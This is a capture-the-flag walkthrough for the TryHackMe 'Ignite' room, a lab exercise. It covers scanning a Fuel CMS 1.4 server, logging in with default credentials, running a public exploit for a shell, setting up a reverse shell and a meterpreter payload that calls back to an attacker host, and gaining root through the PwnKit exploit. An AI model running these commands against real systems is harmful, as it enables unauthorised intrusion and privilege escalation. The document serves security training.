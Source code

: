 ```yaml
---
title: Walkthrough - Ignite
published: true
---
```


A new start-up has a few issues with their web server.

[https://tryhackme.com/room/ignite](https://tryhackme.com/room/ignite)

* * *

## Root it!

- ``nmap -p- -T4 10.10.1.30 -vvv``

Few things of note. Inital nmap scan shows we have a webserver at port 80 and viewing the site, we can see a default Fuel CMS Version 1.4 page. Will run gobuster to scan while nmap runs. 

It doesnt look like there are any other open ports on this server. But will keep running scans while we check out the webserver.

- ``gobuster dir -u http://10.10.1.30 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x txt,html,php,cgi -t 100 --no-error``
- we see a robots.txt with ``/fuel/`` which shows us the fuel cms login page.

##   Gobuster Results

```shell
/home                 (Status: 200) [Size: 16591]
/index                (Status: 200) [Size: 16591]
/index.php            (Status: 200) [Size: 16591]
/0                    (Status: 200) [Size: 16591]
/offline              (Status: 200) [Size: 70]   
/robots.txt           (Status: 200) [Size: 30]   
/server-status        (Status: 403) [Size: 298]  
```

Reading the fuel CMS default page gives us default credentials admin:admin. We cnan login to /fuel/ with these. lol.

- ``searchsploit fuel cms`` we have some exploits to try.
- ``python3 50477.py -u http://10.10.1.30`` will give us a shell
- wget a php reverse shell over and setup netcat listener

![0xskar](/assets/ignite01.png)

* * * 

## User.txt

- ``cat flag.txt`` in ``/home/www-data``

* * * 

## Root.txt

- upgrade shell ``python3 -c 'import pty;pty.spawn("/bin/bash")'``
- upload meterpreter shell ``msfvenom -p linux/x86/meterpreter/reverse_tcp  LHOST=10.2.127.225 LPORT=5555 -f elf > meterpreter.elf``
- setup ``msfconsole`` and run ``linux/local/cve_2021_4034_pwnkit_lpe_pkexec`` to get root.txt

* * * 